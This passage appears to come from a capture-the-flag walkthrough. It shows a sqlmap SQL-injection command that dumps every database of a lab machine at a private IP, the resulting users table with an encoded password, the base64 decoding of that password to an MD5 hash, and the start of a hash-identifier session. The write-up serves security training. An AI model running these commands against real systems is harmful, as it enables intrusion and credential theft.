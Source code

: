 ```
root@sushi:~# sqlmap --url="http://192.168.147.166/kzMb5nVYJw/420search.php?usrtosearch=a*" --dbms=MySQL --dump-all --level=5 --risk=3
```
It gives us back way too much information, but towards the top is this users table with our two employees from before.
```
Database: seth                                                                                                                                                                                               
Table: users                                                                                                                                                                                                 
[2 entries]                                                                                                                                                                                                  
+----+---------------------------------------------+--------+------------+                                                                                                                                   
| id | pass                                        | user   | position   |                                                                                                                                   
+----+---------------------------------------------+--------+------------+                                                                                                                                   
| 1  | YzZkNmJkN2ViZjgwNmY0M2M3NmFjYzM2ODE3MDNiODE | ramses | <blank>    |                                                                                                                                   
| 2  | --not allowed--                             | isis   | employee   |                                                                                                                                   
+----+---------------------------------------------+--------+------------+ 
```
We take a wild guess that it might be base64 as it doesn't look like any other hash I'm used to.
```
root@sushi:~# echo "YzZkNmJkN2ViZjgwNmY0M2M3NmFjYzM2ODE3MDNiODE" | base64 -d
c6d6bd7ebf806f43c76acc3681703b81base64: invalid input
```
Kind of weird there but we now have what looks like an MD5.
```
root@sushi:~# hash-identifier                      
   #########################################################################                          
   #     __  __                     __           ______    _____           #                          
   #    /\ \/\ \                   /\ \         /\__  _\  /\  _ `\         #                          
   #    \ \ \_\ \     __      ____ \ \ \___     \/_/\ \/  \ \ \/\ \        #                          
   #     \ \  _  \  /'__`\   / ,__\ \ \  _ `\      \ \ \   \ \ \ \ \       #                          
   #      \ \ \ \ \/\ \_\ \_/\__, `\ \ \ \ \ \      \_\ \__ \ \ \_\ \      #                          
   #       \ \_\ \_\ \___ \_\/\____/  \ \_\ \_\     /\_____\ \ \____/      #                          
   #        \/_/\/_/\/__/\/_/\/___/    \/_/\/_/     \/_____/  \/___/  v1.1 #                          
   #                                                             By Zion3R #                          
   #                                                    www.Blackploit.com #                          
   #                                                   Root@Blackploit.com #                          
   #########################################################################                          
```